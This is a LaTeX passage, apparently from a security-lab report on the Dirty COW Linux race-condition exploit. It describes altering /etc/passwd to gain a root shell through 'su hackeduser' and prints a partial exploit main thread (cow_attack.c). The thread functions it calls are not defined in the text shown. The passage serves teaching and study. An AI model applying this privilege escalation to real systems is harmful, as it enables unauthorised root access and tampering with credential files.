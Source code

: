 \documentclass[a4paper,12pt]{article}
\begin{document}
\\The attack is run using the steps used in section \ref{task1}, task 1. The \texttt{/etc/passwd} file is printed after the attack has stopped, for us to check whether the file has been succesfully modified using the current user privileges. Figure 6 displays the result of executing the program.
\begin{figure}[H]
	\centering
	\texttt{[image: editpass]}
	\caption{Successful Modification}
	\label{fig:editpass}
\end{figure}
\noindent The figure has shown that the edit has been successful. However, it can only be validated if we are able to login to the user account and obtain a root shell. To do so, the command \texttt{su hackeduser} is used to login to the specified user account.
\begin{figure}[H]
	\centering
	\texttt{[image: COWpass]}
	\caption{Successful Login with Root Access}
	\label{fig:cowpass}
\end{figure}
\noindent With the successful login and the ``\#'' sign visible as shown in Figure 7, the attack is successful and has shown that a dirty COW attack program is able to modify and obtain root privileges without any need for root privileges when executing any command.
\newpage
\section{Appendix}
\subsection{Main Thread: \texttt{cow\_attack.c}}
\label{Appsec:2}
\begin{verbatim}
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;

int main(int argc, char *argv[])
{
    pthread_t pth1, pth2;
    struct stat st;
    int file_size;
    
    //Open file in Read-Only mode
    int f=open("/zzz", O_RDONLY);
    
    //Map file to COW memory using MAP_PRIVATE
    fstat(f, &st);
    file_size = st.st_size;
    map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
    
    //Find position of target area
    char *position = strstr(map, "2222222222");
    
    //Create two threads for attack
    pthread_create(&pth1, NULL, madviseThread, (void *)file_size);
    pthread_create(&pth2, NULL, writeThread, position);
    
    //Wait for threads to finish
    pthread_join(pth1, NULL);
    pthread_join(pth2, NULL);
    
    return 0;
}
\end{verbatim}
\newpage
\end{document}
